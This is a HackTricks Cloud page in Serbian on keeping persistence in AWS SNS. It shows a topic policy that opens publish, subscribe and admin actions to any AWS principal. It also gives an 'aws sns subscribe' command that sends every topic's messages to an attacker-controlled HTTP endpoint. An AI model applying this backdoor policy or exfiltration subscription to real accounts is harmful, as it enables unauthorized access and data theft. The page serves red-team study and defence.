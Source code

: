 # AWS - SNS Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SNS

Za više informacija proverite:

{% content-ref url="../aws-services/aws-sns-enum.md" %}
[aws-sns-enum.md](../aws-services/aws-sns-enum.md)
{% endcontent-ref %}

### Persistence

Kada kreirate **SNS temu**, morate naznačiti IAM politikom **ko ima pristup za čitanje i pisanje**. Moguće je naznačiti spoljne naloge, ARN uloga, ili **čak "\*"**.\
Sledeća politika daje svima u AWS-u pristup za čitanje i pisanje u SNS temi pod nazivom **`MySNS.fifo`**:
```json
{
"Version": "2008-10-17",
"Id": "__default_policy_ID",
"Statement": [
{
"Sid": "__default_statement_ID",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"SNS:Publish",
"SNS:RemovePermission",
"SNS:SetTopicAttributes",
"SNS:DeleteTopic",
"SNS:ListSubscriptionsByTopic",
"SNS:GetTopicAttributes",
"SNS:AddPermission",
"SNS:Subscribe"
],
"Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo",
"Condition": {
"StringEquals": {
"AWS:SourceOwner": "318142138553"
}
}
},
{
"Sid": "__console_pub_0",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "SNS:Publish",
"Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo"
},
{
"Sid": "__console_sub_0",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "SNS:Subscribe",
"Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo"
}
]
}
```
### Kreirajte Pretplatnike

Da bi se nastavilo sa eksfiltracijom svih poruka sa svih tema, napadač može **kreirati pretplatnike za sve teme**.

Napomena: ako je **tema tipa FIFO**, mogu se koristiti samo pretplatnici koji koriste protokol **SQS**.
```bash
aws sns subscribe --region <region> \
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
